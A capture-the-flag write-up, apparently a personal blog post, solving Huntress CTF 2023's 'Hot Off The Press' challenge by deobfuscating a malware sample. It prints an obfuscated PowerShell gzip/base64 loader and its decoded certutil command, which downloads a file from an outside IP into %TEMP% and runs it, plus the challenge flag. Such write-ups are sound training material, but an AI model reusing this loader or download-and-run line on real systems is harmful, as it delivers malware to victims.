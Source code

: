 ```yaml
---
title: "Hot Off The Press"
date: 2023-10-03T13:11:20-10:01
#draft: true
tags: ['CTF','Writeups', 'Malware', 'Medium']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Medium Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/zerion)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/traffic) 

### Oh wow, a malware analyst shared a sample that I read about in the news!

### But it looks like they put it in some weird kind of archive...? Anyway, the password should be infected as usual! 

We are given a UHarc archive file for this challenge. 

we can download the software to decompress the file from sam.gleske [here](https://sam.gleske.net/uharc/) and extract the contents using the password 'infected'.

The result will be a .ps1 file that windows will flag as malware immedately. we can open the file in a text exitor of choice and begin deobfuscating the code.
```ps1
$x = ([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String((('H4sI'+'AIeJ'+'G2UC/+1X'+'bU/jOBD+3l9hrS'+'IlkU{0}'+'VFvb{1}IiFdWqD'+'bPRJKS8vR'+'brUKy'+'TR168TFcQplb//7'+'jfNSygJ73{1}lI94F'+'IVvwyMx4/M'+'7YfT9PYl5TH'+'hH7sku8VUnxd'+'T3gRMTT/ku'+'/fWUSjS3Mzp'+'oX7zCWHxBjby+UR'+'jzwaTw4OWq'+'kQ{1}M'+'u8XW2'+'DtJM{1}'+'omtGI'+'TFM8he5nIGAnbP'+'rOfiSf'+'Cfat2qb8W'+'uPFW{0}rlufP'+'gOzYcaD'+'GTrnvKbeq/'+'SWj0tC/ftXN8U5'+'9Uj2+ST2'+'WGHp/nUiIqgFjuk'+'l+mGrCi/USDN2'+'hvuAJn8rqJY'+'13G9VBn'+'HhTcNHa'+'ChyQMx4'+'kul'+'nZ{0}{1}a'+'AT{1}Wcr0kZyUUMHa'+'tdwX0'+'7CAQkiW6RsTI'+'/nkx+N8bF'+'3{0}00'+'ljS'+'CaieWIPiyD'+'2JFfUiq'+'n704YNC'+'D6QS1+l{0}Q'+'OJyYJoq'+'t+AIM{0}U4Zs8'+'i/MWO4c'+'Fsi91olY1sJpbpS'+'mBYG'+'9Jl1OjxIG'+'eSa+jOO'+'5kl'+'g4pcngl'+'n5UalMy7'+'yJvPq'+'3o6eZs2mX'+'3zgbAHTX6PK'+'{1}Zr'+'qHp'+'GYRBy'+'f2JBdrbGoXIgVz'+'sgGbaNGe/Yf'+'1SmP1UhP1V'+'u0U'+'e8ZDToP'+'JRn0r'+'7tr0pj38q{1}'+'ReTuIjmNI'+'YjtaxF1G/'+'zFPjuWjAl{1}{1}GR'+'7UUc9{1}9Qy8'+'GIDgCB'+'q{1}nFb4qKZ6oHU'+'dUbnSbKWUB'+'CNvHiCb'+'oFQbbfO'+'xMHjJD78QORAhd3'+'sYs'+'1aa4O6'+'CU{0}nb'+'{1}upxdtVFIbz{1}v'+'SSzSTXF7+hbpg8c'+'gsIgdJ7QYs'+'lPJs6r+4K6T'+'Mkl9{0}5Glu'+'Yn5{1}5zFtC'+'0eJ1KkPgYVIbj'+'o{0}8'+'GnHlOIWO'+'QzDaC57'+'tOwnF5/Fo+Wxx'+'juG7S0wnhgj8'+'Kh{0}1Wq'+'CPQ0Swuz2g'+'fZiZYMIpTJjosT5'+'oV4'+'OBS7I'+'8st{0}4RAf8HRc'+'hPkGa+Q'+'KSHZchP'+'D3WdcWmRIhcTDR6'+'GM2fVfnHhy'+'6uTOtAQ'+'UwTGyvTVur'+'qXKfi0+P'+'W8sVI4WAGVwCI'+'lQn'+'AgeNb0{1}ftv{0}Dxjj'+'Q6dlh+/lvbyX'+'9/K/{0}22X+XG'+'vHr'+'RZ0mnV635'+'0N7'+'+6d'+'Pmob8sR'+'bf{0}gc+/2j'+'O6vT'+'ufHt856786'+'dO6lz{1}e5i'+'e302D2/PjuxV'+'tzFMr'+'xqfFqP{0}3nQU3'+'c1G'+'9zXmzq+'+'YGzn4P8b'+'iM7f'+'Rwf85lk'+'4+Nh8w5'+'36Q1Z17P6vn7'+'WP8h1gW2R/n+0'+'m2g8UuZ'+'M{0}M3kN7UYyHh'+'T17M5+aw22'+'ch1+GvZO{0}oc3+bF'+'+FX2jz'+'PmifrIOWvTq'+'nNhse'+'D91Ba+iPwsPD'+'D2ZlPKCx3G1M1{1}W'+'+qwhS'+'RWP+p/'+'2tS+Al6'+'ud4'+'Ipl5DC8H5HTl'+'FX3C'+'xUnB1{0}qcKg3DU'+'{1}x/'+'ASIGhvQYCXR5sd'+'mMcV+RxJzSIUP'+'NeaOisYNO'+'5tVzNZNsBM0'+'H9lh2HRyM'+'0{1}u8{0}{0}O7rH'+'oKcShnVu1ut1ZD'+'7le7q+3htfj6'+'pbX4cm3ktix'+'FHjNwNtZZZt2s'+'0CkxjDfHC9'+'8H{1}unK{0}xB7C'+'Tyce'+'4H0AvlOfukrCJ'+'ucs20A'+'i5Vt8'+'u{1}R'+'fghcHVc/Vq+'+'D{0}FPQxA7'+'c{1}{1}0q/rzFxrX0'+'+uz6TZOnIC8z/AX'+'/mDwPfb8YfVVC1a'+'wcoCfd'+'jzseiN/bIX'+'DpUYmCf'+'aRhDPKHwQtAFB'+'tmK8gqP{0}gbpsWn'+'Hspnq'+'dxx8'+'emlmODf2GZMc5'+'4PA'+'AA=')-f'L','E')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()));$x
```
Once you decode the base64 encoded message it will look like this:

```ps1
certutil -urlcache -f http://.103.163.187.12:8080/?encoded_flag=%66%6c%61%67%7b%64%62%66%65%35%66%37%35%35%61%38%39%38%63%65%35%66%32%30%38%38%62%30%38%39%32%38%35%30%62%66%37%7d %TEMP%\f & start /B %TEMP%\f
```

All that is left to do now is urldecode the flag:


![hotp](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/press_flag.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/zerion)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/traffic) 
